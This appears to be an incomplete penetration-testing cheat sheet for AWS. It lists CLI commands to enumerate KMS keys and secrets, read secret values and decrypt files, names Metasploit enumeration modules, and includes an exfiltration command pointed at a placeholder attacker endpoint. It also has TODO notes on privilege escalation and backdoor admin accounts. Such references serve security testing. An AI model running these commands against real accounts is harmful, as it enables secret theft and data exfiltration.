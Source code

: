 # AWS

TODO: https://github.com/RhinoSecurityLabs/pacu

## Enumeration

### Authenticated Enumeration

```
$ aws [--endpoint-url=http://<IP>:4566] kms list-keys

$ aws [--endpoint-url=http://<IP>:4566] secretsmanager list-secrets

$ aws [--endpoint-url=http://<IP>:4566] secretsmanager get-secret-value --secret-id "<arn_ID>"
```

```
auxiliary/cloud/aws/enum_ssm
auxiliary/cloud/aws/enum_ec2
auxiliary/cloud/aws/enum_iam
auxiliary/cloud/aws/enum_s3
auxiliary/cloud/aws/aws_launch_instances
```

## Privilege Escalation

TODO: Write conditions to escalate to gain full control of the s3 bucket servers

## Credential Access and Dumping

Decrypt the file with a master key.

```
$ aws kms decrypt [--endpoint-url=http://<IP>:4566] --ciphertext-blob fileb:///path/to/file.enc --query Plaintext --output text
```

Find the key

```
$ aws kms decrypt [--endpoint-url=http://<IP>:4566] --ciphertext-blob fileb:///path/to/file.enc --query Plaintext --output text --key-id=<Key_ID> 
```

Decrypt the file with a supported encryption algorithm.

```
$ aws kms decrypt [--endpoint-url=http://<IP>:4566] --ciphertext-blob fileb:///path/to/file.enc --query Plaintext --output text --key-id=<Key_ID> --encryption-algorithm <encryption_algorithm>
```

## Data Exfiltration

TODO: Setup MinIO on a server to exflitrate s3 bucket instances and write conditions before executing this phase

```
$ aws s3 --endpoint=http[s]://<attacker_url> --no-sign-request --recursive ls s3://<s3_bucket_IP>
```

## Maintaining Access

TODO: Provide steps for creating user accounts with admin access

---
## References

### Source Repositories

- [minio-backup-s3](https://github.com/fandoghpaas/minio-backup-s3)

### MinIO

- [MinIO](https://min.io)

### Mystic0x1

- [Mystic0x1: Privilege Escalation in AWS - Part 01](https://mystic0x1.github.io/posts/AWS-Privilege-Escalation-Part-01/)

- [Mystic0x1: Privilege Escalation in AWS - Part 02](https://mystic0x1.github.io/posts/AWS-Privilege-Escalation-Part-02/)

- [Mystic0x1: Methods to Backdoor an AWS Account](https://mystic0x1.github.io/posts/methods-to-backdoor-an-aws-account/)